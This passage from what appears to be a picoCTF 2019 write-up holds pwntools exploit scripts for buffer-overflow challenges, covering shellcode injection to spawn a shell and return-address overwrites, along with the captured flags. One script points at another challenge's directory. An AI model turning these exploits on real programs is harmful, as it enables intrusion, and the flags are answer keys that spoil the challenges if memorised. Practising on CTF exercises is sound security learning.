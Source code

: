 ```py

print p.recv()
```
<strong> Flag : picoCTF{th4t_w4snt_t00_d1ff3r3nt_r1ghT?_7a154fef} </strong>
<hr>

<h5> slippery-shellcode - 200pt </h5>
<p> This program is a little bit more tricky. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/slippery-shellcode_6_7cf1605ec6dfefad68200ceb12dd67a1 on the shell server. Source. </p>

```py
#!/usr/bin/python
  
from pwn import *

user = '****'
pw = '****'

r = ssh(host='2019webshell1.picoctf.com',user=user, password=pw)
r.set_working_directory('/problems/newoverflow-1_2_706ae8f01197e5dbad939821e43cf123')

p = r.process('./vuln')

payload = "A"*256
payload += asm(shellcraft.i386.linux.sh())

p.sendline(payload)

p.interactive()
p.close()
```
<strong> Flag : picoCTF{sl1pp3ry_sh311c0d3_5a0fefb6} </strong>
<hr>

<h5> NewOverFlow-2 - 250pt </h5>
<p> Okay now lets try mainpulating arguments. program. You can find it in /problems/newoverflow-2_3_3602cb64cd7f9512a10ae9139f8d8c2c on the shell server. Source. </p>

```py
#!/usr/bin/python
  
from pwn import *

user = '****'
pw = '****'

r = ssh(host='2019webshell1.picoctf.com',user=user, password=pw)
r.set_working_directory('/problems/newoverflow-2_3_3602cb64cd7f9512a10ae9139f8d8c2c')

p = r.process('./vuln')
e = ELF('./vuln')

main = e.symbols['main']
flag = e.symbols['flag']

payload = "A"*72
payload += p64(main)
payload += p64(flag)

p.sendline(payload)
p.sendline("test")

print p.recv()
```
<strong> Flag : picoCTF{r0p_1t_d0nT_st0p_1t_e51a1ea0} </strong>